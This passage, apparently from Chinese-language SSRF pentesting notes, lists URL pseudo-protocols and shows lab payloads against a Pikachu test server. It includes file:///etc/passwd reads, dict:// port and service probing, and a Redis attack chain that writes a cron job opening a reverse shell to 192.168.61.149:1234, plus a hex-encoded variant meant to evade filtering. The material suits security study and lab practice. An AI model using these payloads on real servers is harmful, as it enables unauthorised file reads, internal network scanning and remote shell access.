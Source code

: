 3. 限制请求只为http协议
```
（1）采取302跳转 https-->http
（2）采取短地址
```
## 十一、SSRF中URL的伪协议
当我们发现SSRF漏洞后，首先要做的事情就是测试所有可用的URL伪协议
```
http:// 主要用于探测主机存活和端口的开放情况
file:/// 从文件系统中获取文件内容，如，file:///etc/passwd
dict:// 字典服务器协议，访问字典资源，如，dict:///ip:6739/info
gopher:// 分布式文档传递服务，可使用gopherus生成payload
ftp:// 针对21端口的探测
sftp:// SSH文件传输协议或安全文件传输协议
ldap:// 轻量级目录访问协议 windows 域控
```
1、file
这种URL Schema可以尝试从文件系统中获取文件，file协议主要用于读取服务器本地文件，访问本地的静态资源，例如
![](2024-01-24-00-13-40.png)
还可以
```
http://192.168.31.111/pikachu/vul/ssrf/ssrf_curl.php?url=file:///C:\\111.txt
http://192.168.31.111/pikachu/vul/ssrf/ssrf_curl.php?url=file:///C:/111.txt
```
file协议数据格式： file:///文件绝对路径名
2、dict
这种URL Scheme能够引用允许通过DICT协议使用的定义或单词列表，dict协议一般常用来探测内网主机以及端口开放情况，既然能够探测端口，那么可以探测不同端口对应的服务的指纹信息。当然dict协议也可以用来执行一些服务的命令，如redis。
```
主要用来：
1.内网主机探测
2.开放端口探测
3.端口服务指纹探测
4.执行命令
一、dict协议探测端口和服务指纹
dict://127.0.0.1:22 # 受害主机探测的时候可以用127.0.0.1
dict://192.168.61.161:22
dict://192.168.61.161:3306
dict://192.168.61.161/info
二、dict协议攻击redis，写入定时任务，进行反弹shell
centos系统定时任务的路径为：/var/spool/cron
debian系统定时任务的路径为：/var/spool/cron/crontabs
dict://192.168.61.161:6379/config:set:dir:/var/spool/cron
dict://192.168.61.161:6379/config:set:dbfilename:root
dict://192.168.61.161:6379/set:jaden:"\n\n*/1 * * * * /bin/bash -i >&
/dev/tcp/192.168.61.149/1234 0>&1\n\n"
# */1 * * * *是每隔1分钟执行一次
注意：若payload存在被转义或过滤的情况或者由于url编码导致失效的情况出现，可利用16进制写入内容
dict://192.168.61.161:6379/set:jaden:"\n\n\x2a/1\x20\x2a\x20\x2a\x20\x2a\x20\x2a
\x20/bin/bash\x20\x2di\x20\x3e\x26\x20/dev/tcp/192.168.61.149/1234\x200\x3e\x261
\n\n"
dict://192.168.61.161:6379/save
三、dict协议攻击redis，写入webshell
```